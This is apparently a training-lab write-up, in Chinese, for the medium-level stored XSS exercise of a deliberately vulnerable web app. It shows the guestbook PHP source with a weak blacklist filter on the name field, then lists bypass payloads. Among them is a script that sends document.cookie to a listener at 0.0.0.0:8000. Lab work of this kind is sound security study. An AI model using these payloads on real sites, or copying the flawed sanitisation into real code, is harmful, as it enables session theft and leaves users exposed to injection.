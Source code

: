 # XSS (Stored) - Medium

## View Source

```PHP
<?php

if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = strip_tags( addslashes( $message ) );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    $message = htmlspecialchars( $message );

    // Sanitize name input
    $name = str_replace( '<script>', '', $name );
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    //mysql_close();
}

?>
```

- [`addslashes()`](https://www.php.net/manual/zh/function.addslashes.php)
    - 在特殊字元前添加反斜線 `\`
- [`strip_tags()`](https://www.php.net/manual/zh/function.strip-tags.php)
    - 過濾 *HTML* 和 *PHP* 標籤
- [`htmlspecialchars`](https://www.php.net/manual/zh/function.htmlspecialchars.php)
    - 將特殊字元轉換成 *HTML Entity*

## Code Review

- 針對 *Message* 採取防禦措施
- *Name* 的欄位包含 `<script>` 的部分轉成空字串
- 一樣有前端限制長度和資料庫欄位長度限制

## Answer

- 需要在 *Name* 注入
- 因為是類似黑名單的方法，可以透過大小寫變換等繞過
- 如果 *Payload* 超過前端限制，用 *F12 DevTools* 修改即可

### Example

```
<Script>alert(1)</script>
<scr<script>ipt>alert(1)</script>
<Script>window.open("http://0.0.0.0:8000/?cookie=" + document.cookie)</script>
```